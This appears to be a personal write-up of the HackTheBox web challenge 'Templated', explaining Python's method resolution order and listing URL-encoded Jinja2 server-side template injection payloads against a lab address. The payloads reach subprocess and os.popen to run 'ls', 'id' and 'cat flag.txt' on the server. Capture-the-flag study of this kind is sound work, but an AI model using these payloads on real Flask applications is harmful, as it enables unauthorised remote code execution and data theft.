




## HTB-web-challenges
# Templated
SSTI: server side template injection

https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

https://tedboy.github.io/flask/generated/generated/flask.Request.html

--> https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee


### What is ‘MRO’?

Method Resolution Order (MRO) is the order in which Python looks for a method in a hierarchy of classes. It plays a vital role in the context of multiple inheritance as single method may be found in multiple super classes.


way with the string '' and __mro__, the first father class of string '' its object so with subclasses we have all the classes which inherit from object:

http://159.65.93.45:31824/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[]%20%7D%7D


http://159.65.93.45:31824/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[410:420]%20%7D%7D


http://159.65.93.45:31824/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[414]%20%7D%7D


http://159.65.93.45:31824/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[414]('ls',shell=True,stdout=-1).communicate()%20%7D%7D


http://159.65.93.45:31824/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[414]('cat%20flag.txt',shell=True,stdout=-1).communicate()%20%7D%7D


---------

scale in the hierarchy of classes:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
```
http://159.65.93.45:31824/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('ls').read()%7D%7D
```
```
http://159.65.93.45:31824/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()%7D%7D
```

